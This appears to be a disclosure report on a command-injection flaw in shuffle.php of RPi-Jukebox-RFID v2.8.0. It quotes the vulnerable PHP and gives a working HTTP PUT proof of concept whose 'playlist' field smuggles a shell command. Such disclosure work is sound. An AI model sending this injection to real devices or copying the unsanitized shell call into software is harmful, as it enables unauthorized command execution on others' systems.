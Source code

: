# RCE vulnerability in [RPi-Jukebox-RFID](https://github.com/MiczFlor/RPi-Jukebox-RFID) v2.8.0 of file /shuffle.php

**vender**:

- [MiczFlor/RPi-Jukebox-RFID: A Raspberry Pi jukebox, playing local music, podcasts, web radio and streams triggered by RFID cards, web app or home automation. All plug and play via USB. GPIO scripts available.](https://github.com/MiczFlor/RPi-Jukebox-RFID)

**SoftLink**:

- [Release v2.8.0: Fix Spotify Authentication · MiczFlor/RPi-Jukebox-RFID](https://github.com/MiczFlor/RPi-Jukebox-RFID/releases/tag/v2.8.0)

**Vulnerable File**

- /htdocs/api/playlist/shuffle.php

**Version**

- 2.8.0

### Analyse

对于 `shuffle.php`：

```php
// 在 shuffle.php 中
$playlist = $json['playlist'];
$shuffle = $json['shuffle'];
if ($shuffle === 'true') {
    execScript("shuffle_play.sh -c=enableshuffle -d='{$playlist}'");
} else {
    execScript("shuffle_play.sh -c=disableshuffle -d='{$playlist}'");
}
```

 `validateRequest()` 函数只检查 `playlist` 和 `single`/`shuffle` 字段是否存在，但没有检查其内容。

```http
PUT /api/playlist/shuffle.php HTTP/1.1
Host: 192.168.129.130
Content-Type: application/json
Content-Length: 69

{
  "playlist": "test';id>3.txt;echo '123",
  "shuffle": "true"
}
```

![image-20250828231146397](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202508282311450.png)



![image-20250828231330086](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202508282313162.png)